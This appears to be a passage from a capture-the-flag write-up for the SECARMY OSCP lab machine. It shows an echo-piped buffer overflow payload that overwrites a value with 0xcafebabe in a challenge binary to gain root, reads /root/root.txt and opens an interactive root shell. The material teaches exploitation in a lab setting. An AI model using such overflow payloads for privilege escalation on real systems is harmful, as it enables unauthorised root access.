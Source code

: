 I use the simple `echo` command for exploit:
```
echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca" | ./orangutan
```
Using 24 of 'a' and 0xcafebabe in binary and in little endian

Try to run it, but nothing happen..

The shell just exit because no input, so we need to add a command:
```bash
nueve@svos:~$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca\nwhoami" | ./orangutan
hello pwner 
pwnme if u can ;) 
root
```
Yes! Looks like we made it!

Then read the root flag!!
```bash
nueve@svos:~$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca\nls /root" | ./orangutan
hello pwner 
pwnme if u can ;) 
pw.sh  root.txt  svos_password_recovery
nueve@svos:~$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca\ncat /root/root.txt" | ./orangutan
hello pwner 
pwnme if u can ;) 
Congratulations!!!

You have finally completed the SECARMY OSCP Giveaway Machine

Here's your final flag segment: flag10{33c9661bfd}

Head over to https://secarmyvillage.ml/ for submitting the flags!
```
Alternatively, you can add `cat` command to wait for input and get an interactive shell:
```bash
nueve@svos:~$ (echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca";cat) | ./orangutan
hello pwner 
pwnme if u can ;) 

ls
flag9.txt  orangutan  readme.txt
whoami
root
```
That is all the flags!! Thanks to SecArmy for creating this challenge! Easy and Fun to play with